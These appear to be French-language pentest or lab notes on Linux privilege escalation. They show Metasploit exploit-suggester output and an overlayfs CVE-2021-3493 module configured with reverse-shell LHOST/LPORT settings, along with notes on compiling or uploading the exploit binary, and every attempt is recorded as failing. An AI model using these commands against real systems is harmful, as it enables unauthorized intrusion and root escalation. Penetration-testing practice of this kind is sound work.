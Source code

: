 ```sh
 4   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 5   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/sudo_baron_samedit                              Yes                      The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
 7   exploit/linux/local/abrt_raceabrt_priv_esc                          No                       The target is not exploitable.
 8   exploit/linux/local/abrt_sosreport_priv_esc                         No                       The target is not exploitable.
...
```

on retrouve la faille baron samedi qu'on essaye de réexploiter via notre session linux mais rien de mieux : ca s'exécute mais pas de sessions.


## overlayfs

tentative d'exploit de overlayfs.

```sh
use exploit/linux/local/cve_2021_3493_overlayfs
set LHOST XX.XXX.XXX.XXX
set LPORT 48433
set ReverseListenerBindAddress 192.168.1.122
set ReverseListenerBindPort 4433
set SESSION 4
run
```

récupère un meterpreter mais en www-data : pas de privesc :(

### via local exploit in c

https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/

- upload exploit.c sur la machine via la session php
- compilation using gcc `exploit.c -o exploit`

mais y'a pas de gcc sur la machine distante !

https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/local/cve_2021_3493_overlayfs

upload depuis la library metasploit : /opt/metasploit-framework/embedded/framework/data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf

KO pas de bash et encore moins de root.

## su_login

KO pas de sessions

## gameoverlay sur focal
